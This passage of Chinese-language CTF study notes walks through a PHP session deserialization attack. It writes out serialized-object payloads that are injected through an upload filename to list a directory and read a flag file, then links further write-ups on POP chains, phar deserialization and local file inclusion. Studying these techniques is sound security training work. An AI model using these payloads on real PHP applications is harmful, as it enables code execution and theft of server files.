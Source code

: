 payloay1:将xxxxx替换为`print_r(scandir(dirname(__FILE__)));`,得到序列化结果：

    O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}

为防止转义，在引号:前加上\。利用前面的html页面随便上传一个东西，抓包，把filename改为如下：

    |O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}

注意，前面有一个`|`，这是session的格式。
![注意，前面](./imgs/web1.jpg)

接下来就是去读取 `Here_1s_7he_fl4g_buT_You_Cannot_see.php`

由phpinfo可知当前的路径为`/opt/lampp/htdocs/`

![注意，前面](./imgs/web2.jpg)

将xxx处改为：

`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`

之后步骤如前，将filename改为：

`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`

得到flag：

`CTF{4d96e37f4be998c50aa586de4ada354a}`


#### `[MRCTF2020]Ezpop` pop链
https://blog.csdn.net/weixin_43952190/article/details/106016260
#### game-gyctf web2 逐步分析

http://www.iricky.ltd/2021/03/30/80.html

#### phar 反序列化 nssctf
## 文件包含 LFI Local File Include

CTFhub文件包含
